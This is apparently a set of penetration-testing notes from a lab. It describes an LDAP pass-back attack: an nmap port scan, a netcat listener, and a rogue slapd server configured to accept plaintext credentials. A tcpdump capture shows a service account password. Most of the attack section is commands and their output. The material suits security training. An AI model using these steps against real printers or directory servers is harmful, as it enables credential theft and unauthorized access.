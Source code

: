 --- ---

<h2>Find LDAP Port</h2>

- Nmap
```Terminal
nmap -sV -sC IP -p389,636
```

- Possible to find LDAP on an other port

---

<h2>Attack</h2>
Type of place to exploit LDAP (Servers)
-   Gitlab
-   Jenkins
-   Custom-developed web applications
-   Printers
-   VPNs  

- Example of what your looking for
		![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/b2ab520a2601299ed9bf74d50168ca7d.png)

Simple Netcat Lisener (Might not work)
```
# Find server (Ex:printer) on the network where there is credential saved (View Pics)
# Setup your Local IP in the field and try ti capture it with Netcat
nc -lvp 389

# Send request in the browser (If this dont work, follow the rogue server technique)
```

Rogue Server (create a server that dictate how data should be share) -> Plain text | Login
```
# Download Tools
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

sudo dpkg-reconfigure -p low slapd

# Create a new file (location does not matter)
touch olcSaslSecProps.ldif
nano olcSaslSecProps.ldif (Add the following)
	#olcSaslSecProps.ldif
	dn: cn=config
	replace: olcSaslSecProps
	olcSaslSecProps: noanonymous,minssf=0,passcred

# Restart the service
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

# Check permission
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

# Launch the server
sudo tcpdump -SX -i INTERFACE tcp port 389

# Send request in the browser (See Picture)
```

Output (Example)
```
...
win 8212, length 0
	0x0000:  4500 0028 b092 4000 8006 2128 0a0a 0ac9  E..(..@...!(....
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5010 2014 0ae4 0000 0000 0000 0000       P.............
10:41:52.989165 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [P.], seq 2332415562:2332415627, ack 3088612909, win 8212, length 65
	0x0000:  4500 0069 b093 4000 8006 20e6 0a0a 0ac9  E..i..@.........
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5018 2014 3afe 0000 3084 0000 003b 0201  P...:...0....;..
	0x0030:  0560 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..password11
```
- Example in this case the password is ---> password11

---

<h2>What is LDAP</h2>

LDAP (Lightweight Directory Access Protocol) is a protocol for accessing and maintaining distributed directory information services over an Internet Protocol (IP) network. It is used to access and manage directory information that is organized in a hierarchical manner, similar to a file system. LDAP directories are commonly used to store information such as user names, passwords, and email addresses, as well as other types of information such as security certificates and encryption keys.

LDAP is based on the X.500 standard and can be used to authenticate users and to provide access to resources on a network. When a client application needs to authenticate a user or retrieve information from the directory, it sends a request to the LDAP server using the LDAP protocol. The LDAP server processes the request and returns the requested information to the client if the request is valid.

LDAP servers provide a centralized location for storing and managing directory information, and client applications can use LDAP to query the directory and retrieve the information they need. LDAP is often used in conjunction with other protocols, such as Kerberos, to provide secure authentication and authorization services for a network.

There are two commonly used ports for LDAP traffic: port 389 and port 636. Port 389 is the default port for LDAP and is used for unencrypted LDAP traffic. Port 636 is the default secure port for LDAP and is used for LDAP traffic encrypted with SSL/TLS (Secure Sockets Layer/Transport Layer Security).

LDAP can be exploited over a rogue LDAP server in a number of ways. For example, an attacker could set up a fake LDAP server and configure it to impersonate a legitimate LDAP server. The attacker could then use the fake server to capture and misuse the credentials (PORT 389) of users who try to authenticate with it. An attacker could also use a rogue LDAP server to inject malicious content into the directory, such as false or misleading information, or to manipulate the directory in other ways.